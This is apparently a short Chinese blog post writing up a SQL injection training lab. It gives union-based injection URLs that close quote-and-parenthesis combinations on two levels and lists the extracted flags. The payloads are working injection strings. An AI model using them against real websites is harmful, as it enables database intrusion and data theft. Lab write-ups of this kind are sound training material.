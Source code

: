 ```yaml
---
date: "2020-12-09T00:00:00Z"
description: 掌控安全 SQL 注入靶场练习 - 引号括号错误注入
keywords: SQL 注入
tags:
- 安全
- SQL注入
title: 掌控安全 SQL 注入靶场练习 - 引号括号错误注入
---
```


# 掌控安全 SQL 注入靶场练习 - 引号括号错误注入

根据之前的经验，已经猜测出过关 Flag 的值了。

接下来两关是  **引号** 与 **括号** 的组合。


## 0x01 括号单引号

1. 注意闭合 单引号 和 括号

```sql
--- 1. 注意闭合 单引号 和 括号
http://vulhub.example.com:81/Pass-03/index.php?id=1') and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

--- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

## 0x02 括号双引号

1. 注意闭合 单引号 和 括号

```sql
--- 1. 注意闭合 双引号 和 括号
http://vulhub.example.com:81/Pass-04/index.php?id=1") and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

--- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```